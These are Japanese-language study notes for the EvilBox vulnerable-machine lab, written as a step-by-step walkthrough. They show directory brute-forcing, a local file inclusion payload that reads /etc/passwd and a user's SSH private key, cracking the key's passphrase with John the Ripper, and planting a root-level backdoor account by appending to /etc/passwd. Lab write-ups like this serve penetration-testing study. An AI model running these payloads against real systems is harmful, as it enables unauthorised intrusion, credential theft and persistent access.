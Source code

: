 ## EvilBox(tryHackMe2と似ている) 653~
### ポートスキャンまでは同じ
- 22, 80

### Gobuster
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - secretという怪しいディレクトリがある
- `gobuster dir -u $URL/secret/ -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - 上の`$URL`は`"http://$IP/secret/"`でもいい
  - `evil.php`という怪しいファイルがある
  - サイトを見てみる

### ローカルファイルインクルード攻撃ができないかチェック
- evil.phpに以下のコードができれば、リンクからコマンドを入力できる。　['page']の部分に正しい単語を見つけてこれば使える
```php
<?php
  $page= $_GET['page'];
  if ($page)
      include $page;
?>
```

### WFuzz
- `wfuzz -u "$URL/secret/evil.php?FUZZ=../../../../etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 0`
  - FUZZの部分が順に入れ替わる
  - ここでは`command`が当てはまる 

### /etc/passwdをみる
- ウェブサイトから
- `view-resource:http://192.168.56.110/secret/evil.php?command=/etc/passwd`
- ユーザのroot,mowreeが/bin/bashが使えるのがわかる
### 暗号鍵を取得する
- mowreeの暗号鍵を取得する
- `view-resource:http://192.168.56.110/secret/evil.php?command=/home/mowree/.ssh/id_rsa`
- 暗号鍵はコピーして`cat > id_rsa`でファイルを作っておく
- `chmod 700 id_rsa`
### sshするが失敗する
- パスフレーズが設定されていて失敗する
### 形式を変える
- john the ripperで使えるようにフォーマットを変える、うまく変換できるかまず確認してみる
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa`
- pass_hash.txtを作る
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa > pass_hash.txt` 
### パスフレーズを解読
- `john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt`
- もしエラーになったら、ファイルが間違っているか、過去に一度解いているため以下のコマンドで過去のパスワードがわかる
  - `john --show 過去に使った暗号ファイル`
### ssh
- `ssh mowree@$IP -i id_rsa`
  - -i:暗号鍵のファイルを指定するオプション
### Linpeaseを使う
- Pythonのサーバで転送する
  - chap2の座学を参照
- Linpeasを使うと`/etc/passwd`が書き換えれることがわかる
  - `./linpeas.sh` > output.txt
  - `cat output.txt`  
### バックドアを仕込む
- passwdファイルに自分のユーザ(root権限を持つ)を書き込んで、いつでも出入りできるようにする
- パスワードを作成する
  - `openssl passwd passwd -1 usersalt`
  - 自分で適当にpasswordを入れる、ここでは`pass`としておく
  - パスワードをコピーしておく
- /etc/passwdに書き込む
  - `echo 'eviluser:ペースト:0:0:root:/root:/bin/bash' >> /etc/passwd`
### フラグの取得
- ユーザを切り替える
  - `su eviluser`
  - パスワードの入力
- `cat /root/root.txt` 
## 初めからする時に削除するもの
- mowreeのhome、user.txt以外は削除
- ParrotユーザのEvilBoxフォルダの中身も削除
- passwdの最終行も削除
  - `sed -e '$d' /etc/passwd`
  - 確認してからリダイレクト
